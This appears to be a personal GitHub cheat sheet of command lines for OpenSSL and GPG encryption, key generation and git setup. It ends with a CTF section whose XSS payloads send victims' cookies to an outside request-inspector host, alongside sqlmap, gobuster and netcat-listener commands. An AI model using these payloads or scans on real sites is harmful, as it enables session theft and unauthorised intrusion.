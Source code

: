 # command-lines

## Encription

### GPG

`gpg --armor --symmetric --cipher-algo CIPHER message.txt`

`gpg --output original_message.txt --decrypt message.gpg`

### OpenSSL

`openssl aes-256-cbc -e -in message.txt -out encrypted_message`

`openssl aes-256-cbc -d -in encrypted_message -out original_message.txt`

`openssl aes-256-cbc -pbkdf2 -iter 10000 -e -in message.txt -out encrypted_message`

`openssl aes-256-cbc -pbkdf2 -iter 10000 -d -in encrypted_message -out original_message.txt`

### RSA 

`openssl genrsa -out private-key.pem 2048`

`openssl rsa -in private-key.pem -pubout -out public-key.pem`

`openssl rsa -in private-key.pem -text -noout`

`openssl pkeyutl -encrypt -in plaintext.txt -out ciphertext -inkey public-key.pem -pubin`

`openssl pkeyutl -decrypt -in ciphertext -inkey private-key.pem -out decrypted.txt`

### Deffie Hellman

`openssl dhparam -out dhparams.pem 2048`

`openssl dhparam -in dhparams.pem -text -noout`

### Certificate signing

`openssl req -new -nodes -newkey rsa:4096 -keyout key.pem -out cert.csr`

## Gobuster

gobuster dir -w /usr/share/wordlists/rockyou.txt -u "http://localhost:8000/"

## nmap

nc -nlvp 1234

## Git

`git remote set-url origin git@github.com:sbahbouhi/command-lines.git`

`git init`

`git commit -m "xxxx"`

`git branch -M main`

`git remote add origin git@github.com:sbahbouhi/xxxx.git`

`git push -u origin main`

## CTF

### xss payloads

<script>window.location=`https://01hh4df1c5qk1fjks5n8spq9zn00-e4e6c9cb80653f2a86a1.requestinspector.com/${document.cookie}`</script>

fetch("https://01hh4df1c5qk1fjks5n8spq9zn00-e4e6c9cb80653f2a86a1.requestinspector.com?"+encodeURIComponent(document.cookie));

VueJS {{7*7}}

### sqlmap

`sqlmap -u "http://localhost:8000/index.php?id=1" -dbs`




